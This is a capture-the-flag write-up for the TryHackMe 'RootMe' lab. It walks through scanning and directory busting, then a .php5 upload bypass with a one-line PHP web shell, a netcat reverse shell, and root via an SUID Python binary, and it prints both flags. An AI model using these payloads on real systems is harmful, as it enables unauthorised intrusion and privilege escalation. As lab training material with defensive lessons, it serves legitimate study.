





# RootMe

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Red Team  

## Overview
A ctf for beginners, can you root me?

## Enumeration

### Command Used
```bash
sudo nmap 10.49.136.148 -n -T4 -sC -sV -oN Nmap-Scan
```
### Nmap Scan
```ansi
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-27 13:18 +0530
Nmap scan report for 10.49.136.148
Host is up (0.0062s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 93:2f:9d:77:1b:c1:f4:9e:5c:55:bb:8f:06:1b:e0:e8 (RSA)
|   256 c3:26:6a:7c:51:2c:2c:1b:79:f5:a3:eb:28:09:f8:ec (ECDSA)
|_  256 25:49:f1:e7:eb:17:85:24:75:37:fc:2c:9f:6e:6e:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```
### Analysing

Based on the Nmap results:

- Port 22 (SSH) → Possible brute-force or credential reuse
- Port 80 (HTTP) → Web application to enumerate

## Web Enumeration

Accessed:

- http://10.49.136.148/



- Nothing Interesting Found in Source Code

### Directory & File Busting

### Command Used
```bash
sudo feroxbuster -u http://10.49.136.148/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```
### Found 

- http://10.49.136.148/uploads/
- http://10.49.136.148/css/
- http://10.49.136.148/js/
- http://10.49.136.148/panel/

### Looking into Directories and files

- /panel/



## File Upload Functionality

### Observation

During web enumeration, a `/panel` endpoint was discovered. Upon accessing it, a file upload interface was identified, allowing users to select and upload files.

### File used Location
```bash
/home/user/php-reverse-shell.php5
```



### Analysis

During testing, it was observed that direct upload of `.php` files was restricted by the application.

However, the application failed to block alternative PHP extensions such as `.php5`, indicating weak file type validation.

---


### Exploitation

A malicious file was created using a supported PHP extension:

```php
<?php system($_GET['cmd']); ?>
```

Saved as:

```
shell.php5
```

The file was successfully uploaded through the panel.

---


### Result

The uploaded file was accessed via the browser and executed successfully, allowing remote command execution.

This confirmed that the application is vulnerable to unrestricted file upload via extension bypass.

## Reverse Shell

### Command To Listen 
```bash
nc -nvlp 9001
```
- click on the .php5 file to get shell
```ansi
┌─[zeref@Athena]─[~/TryHackMe/RootMe]─[192.168.137.158]
└──╼ $ nc -nvlp 9001              
Listening on 0.0.0.0 9001
Connection received on 10.49.136.148 56250
Linux ip-10-49-136-148 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 08:26:24 up 41 min,  0 users,  load average: 0.00, 0.04, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

### Command To Upgrade Shell to Stable Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg

export TERM=xterm
stty rows 40 columns 120
```
### Post-Exploitation Enumeration 
```ansi
www-data@ip-10-49-136-148:/home/test$ cd /var/www
www-data@ip-10-49-136-148:/var/www$ ls
html  user.txt
www-data@ip-10-49-136-148:/var/www$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```

- I found the user flag

## Privilege Escalation

### Checking Sudo Privileges

```bash
sudo -l
```

### Observation

The command revealed that the current user has specific sudo privileges, which may be leveraged for privilege escalation.

- In this case it ask pass to check permission.
```ansi
www-data@ip-10-49-136-148:/var/www$ sudo -l
[sudo] password for www-data: 
Sorry, try again.
[sudo] password for www-data: 
Sorry, try again.
[sudo] password for www-data: 
sudo: 3 incorrect password attempts
```

### Checking SUID Binaries

```bash
find / -perm -4000 2>/dev/null
```

### Observation

Several SUID binaries were identified on the system, including:

```
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/python2.7
/usr/bin/at
/bin/su
/bin/mount
/bin/umount
```

### Analysis

SUID (Set User ID) binaries execute with the permissions of their owner, typically root. Misconfigured SUID binaries can be leveraged to gain elevated privileges.

Among the discovered binaries, `/usr/bin/python2.7` was identified as a potential vector for privilege escalation, as interpreters with SUID permissions can sometimes be abused to spawn a privileged shell.

---

### Exploitation

The SUID Python binary was used to spawn a shell while preserving elevated privileges:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

---

### Result

A root shell was successfully obtained:

```bash
whoami
# root
```

---

### Conclusion

Privilege escalation was achieved by abusing the SUID-enabled Python binary. This vulnerability arises due to improper assignment of SUID permissions to an interpreter, allowing execution of arbitrary commands with root privileges.

### Reading Root Flag
```ansi
# cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
- I found the Root flag and the CTF is solved!!!

## Learnings

- Importance of proper file upload validation
- Weak file extension filtering can lead to RCE
- Necessity of server-side validation over blacklist approaches
- SUID misconfigurations can lead to privilege escalation
- Chaining vulnerabilities leads to full system compromise

# Thanks for Reading | Creator **Zeref0xD**
